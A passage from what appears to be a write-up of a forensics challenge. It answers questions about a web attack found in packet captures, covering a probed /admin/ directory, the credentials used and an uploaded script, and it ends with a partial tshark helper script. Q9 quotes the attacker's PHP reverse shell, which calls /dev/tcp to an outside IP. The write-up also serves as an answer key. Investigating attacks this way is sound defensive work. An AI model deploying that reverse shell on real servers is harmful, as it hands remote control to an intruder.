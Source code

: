 Attacker retrieved account information. We also know the /admin/ directory is typically used for administrative functions, making it a potential target for attackers gaining unauthorized access or sensitive information.

![image](https://github.com/user-attachments/assets/da8bf49f-d4b7-4799-8613-4fb2dbc930d8)

And discovered the directory

![{EC6B9358-E804-444E-AC1C-232F1650AE03}](https://github.com/user-attachments/assets/ecaffacc-939c-4ae6-a24d-6ad7b7e5696e)

**Answer: /admin/**

### Q8. Knowing which credentials were used allows us to determine the extent of account compromise. What are the credentials used by the attacker for logging in?

In Credentials tab, web can see the last credentials is `admin:admin123`, so we can guess that account is correct and attacker use for logging in admin account.

<img src=https://github.com/user-attachments/assets/a966af35-0b38-4aa8-a805-4c4bdd7cb8d4 width=100%>
<p></p>

![{50C129CB-8289-46BB-958D-242C5FDB56F7}](https://github.com/user-attachments/assets/6aae66b8-ed3a-478f-8c26-c60f6b2393cb)

**Answer: admin:admin123!**

### Q9. We need to determine if the attacker gained further access or control of our web server. What's the name of the malicious script uploaded by the attacker?

Attacker create a reverse shell to gain further access from compromised web server to C&C: `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>`

![{C61C8527-DCC9-42D4-953B-793FE44EC322}](https://github.com/user-attachments/assets/deec52e9-0025-49f3-9b58-f3f821c8a057)

**Answer: NVri2vhp.php**


## References

- [1] SQL Injection: https://portswigger.net/web-security/sql-injection
- [2] Tshark: https://www.wireshark.org/docs/man-pages/tshark.html
- [3] Gobuster: https://github.com/OJ/gobuster
- [4] sqlmap: https://sqlmap.org/
- [5] Full code:
```
import subprocess

# Define the path to the pcap file and the tshark command
pcap_file = "WebInvestigation.pcap"
tshark_path = "tshark"      # Adjust this path if necessary or using just "tshark" if it's in PATH variable environment

# Read parameters from file (one URI per line)
with open("parameter_values.txt", "r", encoding="utf-8") as f:
    parameters = [line.strip() for line in f if line.strip()]

for parameter in parameters:
    # Escape special characters in the URI for the filter
    escaped_param = parameter.replace('"', '\\"')
    
    # Build the tshark command
    command = [
        tshark_path,
        "-r", pcap_file,
```